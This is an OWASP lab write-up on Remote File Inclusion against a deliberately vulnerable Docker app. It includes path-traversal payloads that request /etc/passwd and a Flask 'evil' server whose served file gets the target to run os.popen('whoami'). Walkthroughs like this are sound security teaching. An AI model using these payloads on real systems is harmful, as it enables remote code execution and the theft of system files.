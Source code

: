 # KBID 173 - Remote File Inclusion


## Running the app



```text
$ sudo docker pull blabla1337/owasp-skf-lab:rfi
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:rfi
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript 

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](.gitbook/assets/RFI1.png)

![](.gitbook/assets/RFI2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](.gitbook/assets/RFI3.png)


To exploit an Remote File Inclusion vulnerability we need first to setup our on webserver so we are able to serve our own file. In this case i will use Python Flask to create a small webserver that serves my file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
	
```
Then we create our folder template where we will put our evil.py file with the below content.

```python
5 + 5
```

Now we are ready to start our evil_server.py and try to make the application load our evil python file and hopefully it will get executed.

![](.gitbook/assets/RFI4.png)

Our remote file inclusion worked and the application seems to load python files and eval() the content of them. This means we can also inject a system command in our evil.py file. 

```python
os.popen('whoami').read()
```

![](.gitbook/assets/RFI5.png)

{% hint style="success" %} 
 Success! As we observed, we can include our own files through RFI. 
{% endhint %}

## Additional sources

https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion 
